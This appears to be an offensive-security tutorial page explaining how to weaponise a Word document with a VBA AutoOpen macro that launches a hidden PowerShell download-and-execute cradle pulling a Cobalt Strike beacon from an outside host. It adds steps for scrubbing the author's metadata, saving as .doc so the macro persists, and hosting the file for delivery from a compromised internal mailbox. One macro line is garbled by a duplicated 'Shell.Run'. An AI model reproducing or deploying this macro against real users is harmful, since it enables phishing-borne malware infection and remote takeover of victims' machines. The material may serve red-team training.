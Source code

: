 # VBA Macro Beacon

## Introduction

If we've compromised a users email we've opened a door to many possibilities. We can search the users emails, discover new users, reveal technologies in place, and send email on behalf of the user. Note: files that are emailed internally are not tagged with [MOTW Zone Identifier](https://en.wikipedia.org/wiki/Mark\_of\_the\_Web).

Visual Basic for Applications (VBA) is commonly used to enhance functionality in Excel and Word.&#x20;

### VBA Beacon Macro

We can create a macro in word by going View -> Macros -> Create.&#x20;

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub
```

#### Create Beacon PowerShell payload.

The easiest way to get a Beacon through a VBA macro is to use a PowerShell Beacon. To do so, go to Attacks -> Scripted Web Delivery (S). After that, generate a PowerShell payload & copy and paste it.

<figure><img src="../../../.gitbook/assets/Screenshot 2024-07-25 at 12.48.22 AM.png" alt="" width="375"><figcaption></figcaption></figure>

Next, copy the PowerShell payload to the VBA Macro

```vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://copperwired.com/a'))"""

End Sub
```

Save the Macro, return the Word and go File -> Info -> Inspect Document. Remove _Document Properties and Personal Information._ This will prevent out username and other information from being leaked.

<figure><img src="../../../.gitbook/assets/Screenshot 2024-07-25 at 12.55.46 AM.png" alt=""><figcaption></figcaption></figure>

Next we'll save it. It's important to save the Macro as a `.doc` instead of `.docx`. This is because .docx does not allow Macros. Additionally, you can use `.docm` but that's not really what we're looking for.

<figure><img src="../../../.gitbook/assets/Screenshot 2024-07-25 at 1.05.09 AM.png" alt=""><figcaption></figcaption></figure>

We'll upload this file to our Cobalt Strike team server. Go to Site Management -> Host File and select our new `.doc` file.
